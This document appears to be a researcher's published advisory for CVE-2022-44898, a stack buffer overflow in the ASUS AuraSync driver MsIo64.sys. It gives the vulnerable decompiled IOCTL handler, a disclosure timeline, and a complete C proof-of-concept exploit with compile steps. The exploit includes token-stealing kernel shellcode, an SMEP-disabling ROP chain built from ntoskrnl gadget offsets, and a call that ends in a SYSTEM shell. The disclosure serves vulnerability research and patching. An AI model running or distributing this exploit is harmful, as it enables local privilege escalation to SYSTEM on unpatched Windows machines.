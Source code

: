 ```yaml
---
title : "CVE-2022-44898: ASUS AuraSync Kernel Stack Based Buffer Overflow Local Privilege Escalation"
excerpt: "CVE-2022-44898"

categories:
    - "0-day"
tags:
    - [Mitre, ASUS]
---
```


## 0x01: Details

- Title : CVE-2022-44898: ASUS AuraSync Kernel Stack Based Buffer Overflow Local Privilege Escalation
- CVE ID : CVE-2022-44898
- Advisory Published: 2022/08/10
- Advisory URL : [https://www.asus.com/content/ASUS-Product-Security-Advisory/](https://www.asus.com/content/ASUS-Product-Security-Advisory/)
- Vender URL : [https://www.asus.com/](https://www.asus.com/)

## 0x02: Test Environment

OS : windows 10 pro 64-bit 21H2 (build 19044.1826)

ASUS AuraSync : 1.07.79_V2.2

## 0x03: Vulnerability details

The kernel driver MsIo64.sys is included in Asus AuraSync 1.07.79. A stack-based buffer overflow exists in this kernel driver IOCTL dispatch function.

## 0x04: Technical description

When you download ASUS AURA SYNC software, MsIo64.sys driver is installed together. In the IOCTL code of this driver, the memmove function is called at 0x80102040, but there is no path check at this time, so a stack based buffer overflow vulnerability may occur.

```c
__int64 __fastcall sub_113F0(__int64 a1, IRP *a2) {
	ULONG_PTR Src[2]; // [rsp+30h] [rbp-48h]
	...
	switch ( LowPart )
	{
		case 0x80102040:
		  DbgPrint("IOCTL_MSIO_MAPPHYSTOLIN");
		  if ( !(_DWORD)Options )
		    goto LABEL_9;
		  memmove(Src, MasterIrp, Options);
		  v11 = sub_FFFFF80375F91090((PHYSICAL_ADDRESS)Src[1], Src[0], &BaseAddress, &Handle, &Object);
		  if ( v11 >= 0 )
		  {
		    memmove(MasterIrp, Src, Options);
		    a2->IoStatus.Information = Options;
		  }
		  a2->IoStatus.Status = v11;
		  break;
	...
}
```

MasterIrp is lpInBuffer as an argument when calling the DeviceIoControl function. Since lpInBuffer is moved to Src, and the length is not checked, a rop attack is possible by changing the dispatch function return address.

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <string>
#include <Windows.h>
#include <Psapi.h>
#define IOCTL_CODE 0x80102040

BYTE shellcode_[] =
"\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, gs:[188h]       ; _ETHREAD
"\x4C\x8B\x82\x20\x02\x00\x00"              // mov r8, [rdx + 220h]     ; _EPROCESS
"\x4D\x8B\x88\x48\x04\x00\x00"              // mov r9, [r8 + 448h]      ; ActiveProcessLinks
"\x49\x8B\x09"                              // mov rcx, [r9]            

// GetProcessByPid
"\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; UniqueProcessId
"\x48\x83\xFA\x04"                          // cmp rdx, 4               ; PID 4 SYSTEM process
"\x74\x05"                                  // jz found_system          ; SYSTEM token
"\x48\x8B\x09"                              // mov rcx, [rcx]           ; _LIST_ENTRY Flink
"\xEB\xF1"                                  // jmp find_system_proc     ; While
// FoundGetProcess

"\x48\x8B\x41\x70"                          // mov rax, [rcx + 70h]     ; Get Token
"\x24\xF0"                                  // and al, 0f0h             
// FindProcess

"\x48\x8B\x51\xF8"                          // mov rdx, [rcx-8]         ; UniqueProcessId
"\x48\x81\xFA\x00\x00\x00\x00"              // cmp rdx, 0d54h           ; if UniqueProcessId == CurrentPid
"\x74\x05"                                  // jz found_cmd             ; True - jump FoundProcess
"\x48\x8B\x09"                              // mov rcx, [rcx]           ; False - next entry
"\xEB\xEE"                                  // jmp find_cmd             ; jump FindProcess
// FoundProcess

"\x48\x89\x41\x70"                          // mov [rcx+70h], rax       ; Overwrite SYSTEM token
"\x48\x31\xc0"                              // xor rax rax 
"\x48\x31\xc9"                              // xor rcx rcx              
"\x48\x31\xf6"                              // xor rsi,rsi
"\x48\x31\xff"                              // xor rdi, rdi
"\x4D\x31\xC0"                              // xor r8, r8
"\x48\xc7\xc1\xf8\x06\x35\x00"              // mov rcx, 0x3506f8        ; original cr4
"\xc3";                                     // ret

LPVOID GetBaseAddr(const char* drvname) {
    LPVOID drivers[1024];
    DWORD cbNeeded;
    int nDrivers, i = 0;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        char szDrivers[1024];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseNameA(drivers[i], (LPSTR)szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (strcmp(szDrivers, drvname) == 0) {
                    return drivers[i];
                }
            }
        }
    }
    return 0;
}

void exploit() {
    DWORD pid = GetCurrentProcessId();
    INT64 ntoskrnl = (INT64)GetBaseAddr("ntoskrnl.exe");
    HANDLE hDevice;

    hDevice = CreateFileA("\\\\.\\MsIo", FILE_READ_ACCESS | FILE_WRITE_ACCESS, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Error device open %d\n", GetLastError());
        exit(1);
    }
    printf("[+] Success device open\n");

    // Allocate executable memory
    BYTE* shellcode = (BYTE*)VirtualAlloc(NULL, sizeof(shellcode_), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(shellcode, shellcode_, sizeof(shellcode_));
    memcpy(shellcode + 54, &pid, sizeof(pid));              // Change the pid of the shellcode

    INT64 disable_SMEP = 0x250ef8;                          // cr4 value, disable SMEP
    INT64 enable_SMEP = 0x350ef8;                           // cr4 value, enable SMEP
    INT64 pop_rcx = ntoskrnl + 0x314f03;                    // pop rcx; ret
    INT64 mov_cr4 = ntoskrnl + 0x9a4217;                    // mov cr4, rcx; ret
    INT64 wbinvd = ntoskrnl + 0x37fb50;                     // wbinvd; ret
    INT64 ret = pop_rcx + 1;                                // ret

    printf("[+] SMEP disabled\n");

    BYTE input[136] = { 0, };
    memset(input, 0x90, 72);                        // dummy
    memcpy(input + 72, &pop_rcx, 8);                // pop rcx
    memcpy(input + 80, &disable_SMEP, 8);           // disable SMEP value
    memcpy(input + 88, &mov_cr4, 8);                // mov cr4, rcx
    memcpy(input + 96, &wbinvd, 8);                 // wbinvd; ret
    memcpy(input + 104, &shellcode, 8);             // shellcode
    memcpy(input + 112, &mov_cr4, 8);               // mov cr4, rcx 
    memcpy(input + 120, &ret, 8);                   // restore rsp(stack)
    memcpy(input + 128, &ret, 8);                   // restore rsp(stack)

    DWORD temp;
    if (!DeviceIoControl(hDevice, IOCTL_CODE, input, sizeof(input), NULL, 0, &temp, NULL)) {
        printf("[-] Failed DeviceIoControl %d\n", GetLastError());
        exit(1);
    }

    printf("[+] SMEP enabled\n");
    printf("[+] Sucesss execute shellcode\n");
    printf("[+] Success Get SYSTEM shell\n");
    printf("\n\n");
    system("cmd");
}

int main() {
    exploit();
    return 0;
}
```

1. Use Visual Studio 2019
2. Compile with x64 release mode
3. Execute the compiled file

## 0x06: Affected Products

This vulnerability affects the following product:

- ASUS AuraSync ≤ 1.07.79_V2.2

## 0x07: Credit information

HeeChan Kim (@heegong123) of TeamH4C

## 0x08: TimeLine

- 2022/07/28 : First contact via E-Mail ([security@asus.com](mailto:security@asus.com)) to negotiate a security channel;
- 2022/08/01 : I received a call from Asus Security to analyze the vulnerability.
- 2022/08/09 : I was provided with a patched version of the vulnerability.
- 2022/09/18 : My name is inducted into the Asus Hall of Fame.
- 2022/10/11 : The latest version update notice has been posted in the ASUS Latest security updates.
- 2022/11/01 : Request a CVE id via MITRE.
- 2023/02/07 : Received a call from MITRE for CVE-2022-44898.

## 0x09: Reference

- [https://www.asus.com/campaign/aura/us/download.php](https://www.asus.com/campaign/aura/us/download.php)
- [https://www.asus.com/content/ASUS-Product-Security-Advisory/](https://www.asus.com/content/ASUS-Product-Security-Advisory/)